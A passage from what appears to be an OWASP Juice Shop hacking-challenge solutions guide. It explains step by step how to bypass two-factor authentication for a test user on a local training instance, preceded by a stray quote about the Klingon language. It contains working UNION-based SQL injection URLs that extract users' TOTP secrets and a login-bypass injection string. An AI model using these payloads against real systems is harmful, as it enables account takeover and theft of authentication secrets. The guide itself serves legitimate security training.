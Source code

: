 ![Crowdin Klingon Spoiler](img/crowdin_klingon-spoiler.png)

> The Klingon language was originally created to add realism to a race
> of fictional aliens who inhabit the world of Star Trek, an American
> television and movie franchise. Although Klingons themselves have
> never existed, the Klingon language is real. It has developed from
> gibberish to a usable means of communication, complete with its own
> vocabulary, grammar, figures of speech, and even slang and regional
> dialects. Today it is spoken by humans all over the world, in many
> contexts.[^3]

### Solve the 2FA challenge for user "wurstbrot"

1. [Access the administration section of the store](#access-the-administration-section-of-the-store)
   while inspecting network traffic.
2. You will learn the email address of the user in question is
   unsurprisingly `wurstbrot@juice-sh.op`.
3. You will also notice that there is no information about any user's
   2FA configuration in the responses from `/api/Users`.
4. Solve
   [Retrieve a list of all user credentials via SQL Injection](#retrieve-a-list-of-all-user-credentials-via-sql-injection)
   and keep its final attack payload ready.
5. Change the one of the `null`s in payload to hopefully find a column
   that contains the secret key for the 2FA setup:
   * <http://localhost:3000/rest/products/search?q=%27))%20union%20select%20null,id,email,password,2fa,null,null,null,null%20from%20users-->
     yields a `500` error with `SequelizeDatabaseError: SQLITE_ERROR: no
     such column: 2fa`.
   * <http://localhost:3000/rest/products/search?q=%27))%20union%20select%20null,id,email,password,2fakey,null,null,null,null%20from%20users-->
     fails with `no such column: 2fakey`.
   * <http://localhost:3000/rest/products/search?q=%27))%20union%20select%20null,id,email,password,2fasecret,null,null,null,null%20from%20users-->
     fails with `no such column: 2fasecret`.
   * <http://localhost:3000/rest/products/search?q=%27))%20union%20select%20null,id,email,password,totp,null,null,null,null%20from%20users-->
     also fails with `no such column: totp`.
   * <http://localhost:3000/rest/products/search?q=%27))%20union%20select%20null,id,email,password,totpkey,null,null,null,null%20from%20users-->
     fails again yielding `no such column: totpkey`.
   * <http://localhost:3000/rest/products/search?q=%27))%20union%20select%20null,id,email,password,totpsecret,null,null,null,null%20from%20users-->
     finally succeeds with a `200` response as this column exists!
6. In the response from
   <http://localhost:3000/rest/products/search?q=%27))%20union%20select%20null,id,email,password,totpsecret,null,null,null,null%20from%20users-->
   find the entry of user `wurstbrot@juice-sh.op` with
   `"image":"IFTXE3SPOEYVURT2MRYGI52TKJ4HC3KH"` whereas all other users
   have `"image":""` set.
7. Using your favorite 2FA application (e.g.
   [Google Authenticator](https://play.google.com/store/apps/details?id=com.google.android.apps.authenticator2))
   create a new entry, but instead of scanning any QR code type in the
   key `IFTXE3SPOEYVURT2MRYGI52TKJ4HC3KH` manually.
8. Go to <http:localhost:3000/#/login> and use SQL Injection to log in
   with `wurstbrot@juice-sh.op'--` as _Username_ and anything as
   _Password_.
9. You will be presented with the _Two Factor Authentication_ input
   screen where you now have to type in the 6-digit code currently
   displayed on your 2FA app.
